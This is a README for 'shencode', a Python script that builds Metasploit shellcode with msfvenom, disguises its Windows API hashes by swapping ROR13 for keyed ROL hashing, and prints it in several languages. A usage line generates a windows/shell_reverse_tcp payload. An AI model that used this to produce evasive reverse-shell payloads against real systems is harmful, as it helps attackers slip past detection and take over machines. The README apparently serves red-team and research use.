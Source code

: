 # shencode
automation script for creating and obfuscating metasploit shellcode

![](shencode-2.png)

## Features

### Version 0.2

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Raw and formatted output (C++,C#, C inline ASM, Powershell, Python, Hex)
- Added a subparser
- choose between building a shellcode and use an existing one
- (more) object oriented rewrite for better module integration

## ToDo

- chaining commands for better integration
- write shellcode in a template file (.cpp)
- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### creating shellcode

`python shencode.py create --payload windows/shell_reverse_tcp --lhost 127.0.0.1 --lport 4443`

### encode shellcode

`python shencode.py encode --filename sc-120824-120101.bin --key 33 [--decompile] [--showmod]`

### output in different styles

`python.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

## Config

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| Command  | Subcommand  | Description                                                        |
| -------- | ----------- | ------------------------------------------------------------------ |
| create   |             | create a shellcode using msfvenom                                  |
|          | --payload   | payload to use e.g. windows/shell_reverse_tcp                      |
|          | --lhost     | LHOST Argument                                                     |
|          | --lport     | LPORT Argument                                                     |
| encode   |             | encode windows function hashes to ROL                              |
|          | --filename  | raw input file with shellcode                                      |
|          | --key       | ROL key for encoding                                               |
|          | --decompile | decompile modified bytes                                           |
|          | --showmod   | display modifications                                              |
| --output |             | formatting the shellcode in C, Casm, C#, Powershell, python or hex |

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
